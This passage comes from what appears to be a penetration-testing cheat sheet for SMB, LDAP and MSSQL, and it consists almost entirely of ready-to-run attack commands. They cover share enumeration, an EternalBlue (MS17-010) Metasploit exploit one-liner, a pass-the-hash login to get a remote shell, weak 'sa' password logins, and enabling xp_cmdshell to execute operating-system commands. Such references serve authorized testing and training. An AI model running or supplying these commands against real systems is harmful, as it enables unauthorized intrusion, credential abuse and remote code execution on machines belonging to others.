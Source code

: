 ### Enumeration
```bash
# List shares
smbclient -L //$TARGET -N
smbmap -H $TARGET
enum4linux -a $TARGET

# Connect to share
smbclient //$TARGET/share -U ""
smbclient //$TARGET/C$ -U admin%password

# Mount share
mount -t cifs //$TARGET/share /mnt/smb
```

### Exploitation
```bash
# EternalBlue (MS17-010)
nmap --script smb-vuln-ms17-010 -p 445 $TARGET
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS $TARGET; run"

# Pass the hash
pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 //$TARGET cmd
```

---

## 🗄️ Port 389/636 - LDAP
**Service:** Lightweight Directory Access Protocol  
**Common vulns:** Anonymous bind, information disclosure

### Enumeration
```bash
ldapsearch -x -h $TARGET -s base
ldapsearch -x -h $TARGET -b "dc=example,dc=com"
nmap -p 389 --script ldap-rootdse $TARGET
```

---

## 🎮 Port 1433 - MSSQL
**Service:** Microsoft SQL Server  
**Common vulns:** Weak sa password, xp_cmdshell

### Exploitation
```bash
# Login
sqsh -S $TARGET -U sa -P password

# Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
EXEC xp_cmdshell 'whoami'

# Metasploit
msfconsole -q -x "use auxiliary/scanner/mssql/mssql_login; set RHOSTS $TARGET; run"
```

---